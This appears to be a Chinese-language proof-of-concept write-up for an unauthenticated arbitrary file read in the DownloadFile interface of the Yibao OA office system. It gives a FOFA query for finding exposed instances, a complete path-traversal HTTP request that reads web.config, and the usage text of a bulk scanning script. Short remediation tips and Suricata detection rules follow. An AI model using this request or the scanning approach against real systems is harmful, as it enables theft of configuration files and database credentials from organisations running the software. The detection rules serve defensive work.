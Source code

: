 ### 产品简介  
易宝OA系统是一种专门为企业和机构的日常办公工作提供服务的综合性软件平台，具有信息管理、 流程管理 、知识管理（档案和业务管理）、协同办公等多种功能。  

### 漏洞概述  
DownloadFile接口处存在任意文件读取漏洞，未授权的攻击者可以利用此漏洞读取系统内部敏感配置文件，数据库密钥凭证等，使系统处于极不安全的状态。  

### 指纹识别  
fofa: app="顶讯科技-易宝OA系统" 或 body="topvision_oaName"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E6%98%93%E5%AE%9D/yibaoOA_DownloadFile_readFile/1.png)

### 漏洞利用  
```
poc:
POST /api/files/DownloadFile HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 93

token=zxh&requestFileName=../../manager/web.config&pathType=1&startPosition=0&bufferSize=1000
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E6%98%93%E5%AE%9D/yibaoOA_DownloadFile_readFile/2.png)

### 测试和利用脚本  
```
python3 yibaoOA_DownloadFile_readFile.py -h
usage: yibaoOA_DownloadFile_readFile.py [-h] [-t] [-r FILE] [-u URL]

### Yi Bao OA downloadfile interface has an arbitrary file reading vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python yibaoOA_DownloadFile_readFile.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python yibaoOA_DownloadFile_readFile.py -u http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"Yi Bao OA downloadfile interface has an arbitrary file reading vulnerability."; flow:established,to_server; flowbits:set,YiBaoOA_downloadfile; content:"post";http_method;nocase; content:"/api/files/DownloadFile";http_uri;fast_pattern;nocase; content:"requestFileName";http_client_body;nocase; content:"../";nocase;http_client_body;distance:0; content:"pathType";nocase;http_client_body; content:"startPosition";nocase;http_client_body; content:"bufferSize";nocase;http_client_body; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E6%98%93%E5%AE%9D/yibaoOA_DownloadFile_readFile; classtype:web-rce; metadata:created_at 2024-02-28,updated_at 2024-02-28,creater:YUUKI4O4; sid:XX; rev:1;)
alert http any any -> any any (msg:"Yi Bao OA downloadfile interface has an arbitrary file reading vulnerability success."; flow:established,from_server; flowbits:isset,YiBaoOA_downloadfile; content:"200";http_stat_code; content:"Content-Type: application/json";nocase; content:"data";nocase;http_server_body; content:"code";nocase;http_server_body; content:"message";nocase;http_server_body; content:"success";nocase;http_server_body;distance:0; content:"is_succeed";nocase;http_server_body; content:"true";nocase;http_server_body;distance:0; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E6%98%93%E5%AE%9D/yibaoOA_DownloadFile_readFile; classtype:web-rce; metadata:created_at 2024-02-28,updated_at 2024-02-28,creater:YUUKI4O4; sid:XX; rev:1;)
```
